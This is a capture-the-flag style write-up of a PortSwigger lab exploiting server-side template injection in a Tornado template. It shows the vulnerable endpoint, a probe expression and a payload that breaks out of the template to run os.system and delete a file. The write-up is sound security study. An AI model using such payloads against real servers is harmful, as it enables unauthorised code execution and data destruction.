

# Breaking Out of a Tornado Template to Run My Own Code

## What Lab I Was Working On

- **Category:** Server-Side Template Injection (SSTI)
- **Level:** Practitioner
- **Lab:** Basic server-side template injection (code context)
- **Status:** Solved

---

## What I Needed to Do

My mission was to exploit a Server-Side Template Injection vulnerability inside a Tornado template, run arbitrary code, and delete this file:

```text
/home/carlos/morale.txt
```

---

## How I Found the Vulnerability

I noticed the app was using a Tornado template to show the author's display name on blog comments. My input was being dropped straight into that template without any sanitization, which meant I could inject template expressions and execute Python code.

---

## How I Exploited It

### Step 1: Confirming SSTI

I spotted the vulnerable endpoint:

```http
POST /my-account/change-blog-post-author-display
```

To test my theory, I injected this expression:

```python
}}{{7*7}}
```

After reloading the blog post, I saw:

```text
49
```

That was all the proof I needed — SSTI confirmed.

### Screenshot


---

### Step 2: Running Arbitrary Code

I used Tornado template syntax to execute Python and wipe Carlos's file. My payload looked like this:

```python

{{os.system('rm /home/carlos/morale.txt')}}
```

I injected it through that same vulnerable parameter, making sure to break out of the existing template context first.

---

### Step 3: Triggering the Payload

I reloaded the blog page, which caused the template to render and execute my injected Python code. The command ran successfully and removed:

```text
/home/carlos/morale.txt
```

---

## What Happened

The file was deleted, and the lab marked itself as solved.

### Screenshot



---

## What I Learned

- SSTI happens when user input gets embedded directly into server-side templates.
- Tornado templates let you run Python expressions and statements.
- Template injection can escalate straight to Remote Code Execution (RCE).
- User-controlled template data should never be rendered without proper sanitization.

---

## References

- PortSwigger Web Security Academy
- Tornado Template Documentation
- OWASP Server-Side Template Injection Guide
